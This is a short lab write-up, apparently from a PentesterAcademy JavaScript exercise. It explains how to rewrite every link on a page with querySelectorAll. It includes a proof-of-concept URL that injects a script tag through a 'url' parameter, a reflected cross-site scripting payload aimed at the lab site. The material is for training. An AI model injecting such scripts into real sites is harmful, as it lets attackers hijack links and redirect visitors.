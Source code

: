 ## Task 2 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/2)</small>

Objectives:

1. Change all the Links on this page to "http://PentesterAcademy/topics"

Since all the redirect link are created with `a` tag by setting the actual link in `href` attribute. So here we would have to find all the `a` tag and then update the value of `href`

Using [Document.querySelectorAll()](), you can find all the elements of matching selector, and [forEach](https://developer.mozilla.org/en-US/docs/Web/API/Document/querySelectorAll#Accessing_the_matches) property of this function you can iterate all the elements.

```js
document.querySelectorAll("a").forEach((a) => (a.href = "http://PentesterAcademy/topics"));
```

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/2?url=%3Cscript%3Edocument.querySelectorAll%28%22a%22%29.forEach%28%28a%29%20%3D%3E%20%28a.href%20%3D%20%22http%3A%2F%2FPentesterAcademy%2Ftopics%22%29%29%3B%3C/script%3E)
